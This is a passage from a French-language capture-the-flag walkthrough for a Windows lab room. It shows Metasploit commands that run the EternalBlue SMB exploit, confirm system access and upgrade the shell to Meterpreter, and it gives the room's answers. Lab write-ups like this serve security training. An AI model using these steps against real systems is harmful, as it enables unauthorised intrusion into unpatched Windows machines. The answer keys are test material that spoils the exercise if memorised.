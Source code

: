 
> Réponse: **RHOSTS**

## #4 Run the exploit!

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

Attendre, ça peut prendre quelques secondes ou nne pas marcher ...


Si fail :
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```


## #5 Confirm that the exploit has run correctly.

```
C:\Windows\system32\whoami
```

# [Task 3] Escalate 

## #1 Convert a shell to meterpreter shell. What is the name of the post module we will use?

Le Windows c'est bien mais le shell [meterpreter](https://www.tntsecurite.ca/?p=1257) c'est mieux, on peut faire un tas de choses utiles avec (upload, download, post exploit) :)

Mise en arriere plan du shell (CTRL + Z ou "background")

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

```
sf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

```

> Réponse: **post/multi/manage/shell_to_meterpreter**

